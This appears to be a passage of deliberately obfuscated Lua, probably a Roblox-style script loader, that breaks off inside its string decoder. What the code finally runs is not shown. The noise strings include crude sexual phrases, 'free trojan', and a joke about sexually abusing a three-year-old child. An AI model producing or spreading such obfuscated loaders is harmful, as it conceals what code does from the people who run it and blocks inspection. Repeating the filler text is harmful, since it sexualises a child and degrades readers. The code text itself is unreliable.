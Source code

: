 ,nil,nil;(function() _msec=(function(e,l,o)local j=l["قضټحڝضككنك؃زڝئآڪد"];local J=o[e[(0x2b6+-84)]][e["ڝئننجضئئؠئڪؠق"]];local y=(-#{'}',{};(function()return{','}end)();'}'}+8)/(82+(-#'black mess more like white mesa'+((-0x3e819/209)/0x19)))local M=((246-(-#'Little kids'+(26228/0xa6)))-0x61)-(207/0xcf)local H=o[e[(347-0xc2)]][e["جنآ؃جؠحڪك؃ضڪسؠضڪق"]];local g=((-#[[loadstring]]+((0x105+-23)+-0x75))-0x6e)+(-0x38+58)local W=o[e[(-0x2a+634)]][e["سټج؃ڝټدزآئنجحسئؠج"]]local d=(-62+0x40)-(24/(154-((0x9dc7-20241)/0x9b)))local h=(-#{'nil';{};(function()return{','}end)()}+5)local i=(0x59+(-#"Cock and ball torture"+(((0x63+-89)+-0x3c)+-0x10)))local x=(-#[[Bong]]+((-0x66-(-2024/(0x8a0/12)))+97))local w=(9+-#{64,{};64;(function()return#{('hpLfFl'):find("\76")}>0 and 1 or 0 end);'nil',120,120})local b=(-#[[420Script Was Here]]+(((0xe8-(0x176-(0x212-305)))+-#"Hi skid")+-56))local f=(-#[[free trojan]]+(((0x4d-(0x2783/119))+-77)+0x62))local u=(-#'Never gonna give u up'+(0x74-((-0x4b+(14458+-#{{};1,'}';'}',101}))/0x9e)))local C=(((-0x4c+(-107+0xa1))-0x2e)+0x48)local S=((((-0x2b+(357+-0x5a))-0x97)+-#[[print]])-64)local B=((84+-#{24;(function()return#{('bbFBMb'):find("\70")}>0 and 1 or 0 end),'nil','}'})-76)local _=((((0x11c5ae/((297+-0x62)+-#"test 123"))-0xc05)/0x9f)+-#[[iPipeh Is Magic]])local D=(7+-#{'}';1;{}})local t=(0x264/((-0x7+(-0x53+-24))+318))local s=(-27+(-#[[iam u Furry iPipeh]]+((-#{'nil';(function()return#{('lBOfBh'):find("\79")}>0 and 1 or 0 end);",",1,",";29;","}+183)-128)))local c=(10+-#{161;",",(function()return{','}end)(),161;(function()return#{('PlMOLo'):find("\77")}>0 and 1 or 0 end);1,(function()return{','}end)()})local k=(6+-#{'}';1,","})local U=(((-#{1,'nil';'}'}+9067)/88)-0x64)local O=(0x1e/(((198355-0x183a3)/0xa8)/0x3b))local z=e[((0x1ce4e-59220)/45)];local T=o[e[(-#{'}';{},82;{};'}'}+158)]][e["ڝ؃ڪآجؠننټټزد"]];local F=o[(function(e)return type(e):sub(1,1)..'\101\116'end)('؃دآكسټڪن')..'\109\101'..('\116\97'or'ڝئڝټد؃ئڝ')..e[(-#[[amena jumping]]+((-0x3f+1322)-654))]];local P=o[e[(0x4cc-636)]][e["قټټټكدڪجڪ؃"]];local I=(0x42/33)-(0x72+((-12194+0x1792)/55))local m=(-#"Two trucks having sex"+(0x66+((-0x2b+(-0x13+-2))+-#"iPipeh Is Magic")))-((91-0x54)+-#[[print]])local L=o[e[(158+-#{{},1,'}',",";'}'})]][e["سكڪحسكضج"]];local n=function(o,e)return o..e end local v=(0x77-115)*(0x114/(((-171+0x42)+185)+-#[[Little kids]]))local G=o[e["ج؃ڝزدڪڝكزؠدټؠ"]];local a=(123-0x79)*((0x8b04/(-#'iam u Furry iPipeh'+(0x1a9-243)))+-0x59)local A=((0x23230/140)+-#'Dick')*(0x19c/(-#[[iPipeh My God]]+((-#"edp445 what are you doing to my 3 year old son"+(44070/0x4e))-300)))local Y=(((((-0x25+509)+-#[[iPipeh Is Magic]])-252)+-#'free trojan')-142)local p=(0x106/((21038/0x43)-183))*(-#'edp445 what are you doing to my 3 year old son'+(4848/0x65))local N=o[e["ئ؃قندججآڪسنڪ؃سك"]]or o[e[(0xf080/104)]][e["ئ؃قندججآڪسنڪ؃سك"]];local r=((((26803278/0xed)+-#'187 ist die gang')/197)-318)local e=o[e["آؠئآ؃آآسجك"]];local W=(function(n)local r,l=2,0x10 local o={j={},v={}}local a=-d local e=l+M while true do o[n:sub(e,(function()e=r+e return e-M end)())]=(function()a=a+d return a end)()if a==(v-d)then a=""l=I break end end local a=#n while
e
